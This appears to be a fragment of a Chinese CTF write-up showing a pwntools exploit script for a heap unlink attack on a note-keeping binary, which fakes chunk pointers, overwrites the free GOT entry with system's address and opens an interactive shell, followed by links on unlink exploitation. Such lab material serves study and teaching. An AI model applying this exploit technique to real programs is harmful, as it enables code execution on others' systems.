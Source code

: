 ```
payload  = ""
payload += p64(0x0) + p64(notelen+1) + p64(fd) + p64(bk) + "A" * (notelen - 0x20)
payload += p64(notelen) + p64(notelen+0x10) + "A" * notelen
payload += p64(0) + p64(notelen+0x11)+ "\x00" * (notelen-0x20)

new_note(payload)

delete_note(1)

free_got = 0x602018

payload2 = p64(notelen) + p64(1) + p64(0x8) + p64(free_got) + "A"*16 + p64(binsh_addr)
payload2 += "A"* (notelen*3-len(payload2)) 

edit_note(0, payload2)
edit_note(0, p64(system_sh_addr))

delete_note(1)

p.interactive()

```



## **参考阅读**

[unlink](https://ctf-wiki.github.io/ctf-wiki/pwn/linux/glibc-heap/unlink/)

[unlink漏洞的原理和利用](http://wonderkun.cc/index.html/?p=651)

[Linux 堆溢出漏洞利用之 unlink](https://segmentfault.com/a/1190000005655132)
